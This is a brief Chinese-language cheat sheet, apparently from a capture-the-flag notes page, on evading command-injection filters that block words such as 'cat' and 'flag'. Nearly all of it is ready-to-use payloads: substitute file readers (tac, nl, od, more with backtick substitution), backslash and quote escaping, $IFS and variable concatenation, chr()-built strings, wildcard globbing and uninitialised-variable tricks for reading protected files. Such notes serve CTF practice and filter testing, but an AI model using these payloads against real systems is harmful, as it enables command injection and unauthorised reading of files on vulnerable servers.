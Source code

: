 ## 命令绕过
### 过滤cat,flag等关键词
1. 代替
```
more:一页一页的显示档案内容 // 后面的指令要用 `` 包住
less:与 more 类似
head:查看头几行
tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示
tail:查看尾几行
nl：显示的时候，顺便输出行号
od:以二进制的方式读取档案内容
vi:一种编辑器，可以查看
vim:一种编辑器，可以查看
sort:可以查看
uniq:可以查看
file -f:报错出具体内容
sh /flag 2&gt;%261  //报错出文件内容
exa:替代ls
```
```
// 常用指令
more `dir`

more `php -r php -r &#34;echo chr(102).chr(49).chr(97).chr(103);&#34;` //echo flag
```

2. 使用转义符

```
ca\t /fl\ag
cat fl&#39;&#39;ag
```
3. 内联执行绕过
```
a=fl;b=ag.php;cat$IFS$a$b
```
4. 变量绕过
```
a=c;b=a;c=t;$a$b$c 1.txt
```
5. 编码进制绕过
16进制&amp;base64编码

6. 利用正则匹配绕过
例：
过滤/1010/flag.php文件
```
cat 1010/flag.php
cat ????/fla*
```

7. 利用未初始化变量，使用$u绕过
```
cat 1010/flag.php
cat 1010$u/flag.php
```
